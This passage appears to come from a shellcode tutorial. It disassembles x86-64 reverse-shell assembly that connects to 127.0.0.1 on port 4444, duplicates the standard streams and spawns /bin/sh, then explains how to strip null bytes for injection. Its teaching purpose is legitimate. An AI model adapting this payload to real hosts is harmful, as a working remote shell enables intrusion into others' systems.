 ```nasm
  401005:	bf 02 00 00 00       	mov    edi,0x2
  40100a:	be 01 00 00 00       	mov    esi,0x1
  40100f:	ba 00 00 00 00       	mov    edx,0x0
  401014:	0f 05                	syscall 
  401016:	48 89 c7             	mov    rdi,rax
  401019:	48 31 c0             	xor    rax,rax
  40101c:	50                   	push   rax
  40101d:	c7 44 24 fc 7f 00 00 	mov    DWORD PTR [rsp-0x4],0x100007f
  401024:	01 
  401025:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  40102c:	66 c7 44 24 f8 02 00 	mov    WORD PTR [rsp-0x8],0x2
  401033:	48 83 ec 08          	sub    rsp,0x8
  401037:	b8 2a 00 00 00       	mov    eax,0x2a
  40103c:	48 89 e6             	mov    rsi,rsp
  40103f:	ba 10 00 00 00       	mov    edx,0x10
  401044:	0f 05                	syscall 
  401046:	b8 21 00 00 00       	mov    eax,0x21
  40104b:	be 00 00 00 00       	mov    esi,0x0
  401050:	0f 05                	syscall 
  401052:	b8 21 00 00 00       	mov    eax,0x21
  401057:	be 01 00 00 00       	mov    esi,0x1
  40105c:	0f 05                	syscall 
  40105e:	b8 21 00 00 00       	mov    eax,0x21
  401063:	be 02 00 00 00       	mov    esi,0x2
  401068:	0f 05                	syscall 
  40106a:	48 31 c0             	xor    rax,rax
  40106d:	50                   	push   rax
  40106e:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  401075:	2f 73 68 
  401078:	53                   	push   rbx
  401079:	48 89 e7             	mov    rdi,rsp
  40107c:	50                   	push   rax
  40107d:	48 89 e2             	mov    rdx,rsp
  401080:	57                   	push   rdi
  401081:	48 89 e6             	mov    rsi,rsp
  401084:	48 83 c0 3b          	add    rax,0x3b
  401088:	0f 05                	syscall 
```
Like for the bind shell, we can see that almost all null bytes are with "mov r32,imm8" instructions 
except one "mov m16, imm8" 
```nasm
  40102c:	66 c7 44 24 f8 02 00 	mov    WORD PTR [rsp-0x8],0x2
```
two "mov r, 0x00"
```nasm
  40100f:	ba 00 00 00 00       	mov    edx,0x0
  ...
  40104b:	be 00 00 00 00       	mov    esi,0x0
```
And the mov for the loopback address 127.0.0.1
```nasm
  40101d:	c7 44 24 fc 7f 00 00 	mov    DWORD PTR [rsp-0x4],0x100007f
```
We will remove the null byte using the same techniques than for the bind shell,
Execept for the ip address that we will correct using "sub"
